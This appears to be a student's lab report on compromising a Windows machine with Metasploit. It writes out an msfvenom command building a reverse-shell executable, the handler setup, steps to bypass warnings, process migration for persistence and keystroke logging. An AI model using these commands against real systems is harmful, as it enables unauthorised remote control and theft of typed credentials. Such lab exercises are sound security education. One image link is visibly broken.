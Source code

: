 # NAME: DHIVYAPRIYA. R
# REG.NO.: 212222230032
# DATE: 
# EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
## PROGRAM

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/user-attachments/assets/467704aa-73d5-4a9c-904a-09cf7bad7db9)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/user-attachments/assets/1684ae6a-1a9a-481d-9684-47eac7f47a92)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/0740668c-caea-4e67-bea1-62a0df3e78ae)

Start apache server sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/7f3852b6-f93c-4d76-8759-d6c73aab6456)

Check the status of apache2

![image](https://github.com/user-attachments/assets/c48fd79a-30bd-414e-8964-1c073d4ece6d)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
87b2-3ede-4fb4-ad00-07eff0c29eec)
Starting a command and control Server use multi/handler

![image](https://github.com/user-attachments/assets/c409

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/c23aceb7-463b-48b6-82de-900b3181174f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/ba2a68c3-d551-44e9-b778-d4fb9f9874b5)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/97e75b0f-8a0b-4e76-9699-ac0669c25601)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![244990928-836e6efa-423f-4553-ad2f-19170b010892](https://github.com/user-attachments/assets/1aad975f-4829-4d93-aee9-d2ba0540c98c)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![244990952-35be18d7-51b0-4529-8fd8-76740f0c9ba6](https://github.com/user-attachments/assets/fd72c5aa-362d-4415-a5ef-33400b2fefa7)

keyscan_dump Shows the keystrokes captured so far
![244990920-d40a4428-0c65-4855-be1d-c278766082fb](https://github.com/user-attachments/assets/0fbad545-7264-4ad1-a9ca-1708b789d66a)

## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.
